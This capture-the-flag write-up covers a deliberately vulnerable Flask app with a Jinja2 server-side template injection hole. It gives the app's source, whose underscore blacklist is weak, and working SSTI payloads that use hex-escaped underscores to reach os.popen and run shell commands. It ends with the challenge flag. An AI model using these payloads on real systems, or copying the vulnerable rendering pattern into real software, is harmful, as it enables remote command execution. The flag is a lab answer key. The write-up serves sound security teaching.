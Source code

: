 # SSTI-Easy 2

### Difficulty: Easy

### Objective: Bypass blacklisted ("_")

## Setting Up

Ensures that `Docker` is installed into your machine as this challenge requires Docker. If you're unsure how to do it, you can refer [here](https://www.kali.org/docs/containers/installing-docker-on-kali/) to install it into your Kali machine. Then, install the files `app.py` , `Dockerfile` and `flag-d3a358c6bff2c9f7412e5485b3e2cd2e.txt` into the same directory.

### Commands (Kali)
[1] `sudo docker build -t sstichall .`

[2] `sudo docker run -d sstichall`

[3] `sudo docker logs <The container id>`

Use the first IP provided by the command [3] to access the challenge as highlighted below.

![image](https://github.com/user-attachments/assets/a2dc8099-2cb9-42d9-a8d2-c34d04b245e8)

Challenge should look like this and you are ready to go!

![image](https://github.com/user-attachments/assets/71d4d057-c35f-4c21-b28f-efaa2f35bff9)

## Solution 
<details>

The challenge starts with a text box and allows user input. Then, we starts with the a simple text "hello world" and observe its response.

![image](https://github.com/user-attachments/assets/8c6da092-9fc2-4a3b-9054-d900ca44c47d)

The website seems to return our text back as a response. 

![image](https://github.com/user-attachments/assets/03732c9a-86e7-4042-9ea6-9877e978db85)

Let's try using a simple SSTI payload `{{7*7}}` and observe its behaviour.

![image](https://github.com/user-attachments/assets/d853ed2f-3c60-48bd-880a-be6fa23756ca)

The website returns `49`! That means it is vulnerable to SSTI.

![image](https://github.com/user-attachments/assets/26b6ae54-1bfe-4884-9df2-66fe944dbcea)

Let's use a SSTI payload like `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` to list down files in the directory!

![image](https://github.com/user-attachments/assets/579ab938-dac5-4d4a-8aed-3edd8ad37819)

The website somehow is blocking our payload. Looks like they blacklisted some characters.

![image](https://github.com/user-attachments/assets/01fb2f5e-312b-48a1-b6b6-ffc1ceec65d7)

Let's analyze the source code and figure out what character did the website blacklisted.

### Source Code (python)
```python

from flask import Flask, request, url_for, render_template_string
import re

app=Flask(__name__)

blacklisted=[r"\_"]

@app.route('/', methods=('GET','POST'))
def index():
        if request.method=='POST':
                note=request.form['note']
                if sanitize(note):
                        return render_template_string(note)
                else:
                        return('Please provide valid text')
        return '''
                <form method="POST">
                        Note:<input type="text" name="note">
                        <input type="submit" value="Submit">
                </form>
        '''

def sanitize(x):
        for i in blacklisted:
                if re.findall(i,x):
                        return False
        return True

if __name__=='__main__':
        app.run(host='0.0.0.0',port= 5000,debug=True)  

```

The website is confirmed to be vulnerable to SSTI (Jinja 2) as the source code contains the function `render_template_string`. However, there is a function that seems to be preventing us from reaching the vulnerable function which is the `sanitize()`. It will return boolean `False` when it detected the strings contains underscores which can prevent a regular SSTI payload. We can use another SSTI payload to bypass this sanitization by encoding "_" into hex strings which is `\x5f`. Therefore, the payload should look something like this.

`{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('ls')['read']()}}`

Let's use this payload to list down the directories and see what happens.

![image](https://github.com/user-attachments/assets/e3482f8e-2d40-45b3-b004-398812761e3c)

And it works! We successfully view all the files contain inside the server directory. Let's try viewing the flag using this command:

`{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('cat flag-d3a358c6bff2c9f7412e5485b3e2cd2e.txt ')['read']()}}`

![image](https://github.com/user-attachments/assets/28949435-0e8d-4d1c-b292-492768262978)

Thus, we have successfully obtained the flag.

## Flag
>flag{3a823364c48716d80fb5a766454bacd4} 

</details>
